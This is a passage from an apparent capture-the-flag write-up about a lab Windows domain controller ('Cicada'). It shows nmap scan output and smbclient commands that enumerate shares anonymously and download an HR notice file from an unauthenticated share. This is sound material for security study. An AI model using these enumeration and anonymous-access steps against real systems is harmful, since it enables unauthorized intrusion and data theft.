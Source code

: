 ```
|_Not valid after:  2025-08-22T20:24:16
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-11-18T13:23:35
|_  start_date: N/A
|_clock-skew: 6h59m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.30 seconds
```

1. We find out that 10.10.11.35 host has cicada.htb domain.
2. The system has active SMB, LDAP, RPC over HTTP services enabled, which can be further studied and dissected for weaknesses and vulnerabilities.

Listing NULL(unauthorized/anonymous) SMB SHARES

```
> smbclient --no-pass -L //10.10.11.35
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	DEV             Disk      
	HR              Disk      
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
```

After that I tried logging into these SMB shares. HR share was accessible without authorization and had a content inside.

```

> smbclient //10.10.11.35/HR -U " "%" "
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Mar 14 16:29:09 2024
  ..                                  D        0  Thu Mar 14 16:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 21:31:48 2024

> smb: \> recurse ON
> smb: \> mget *
Get file Notice from HR.txt? yes
getting file \Notice from HR.txt of size 1266 as Notice from HR.txt (0.9 KiloBytes/sec) (average 0.9 KiloBytes/sec)
```
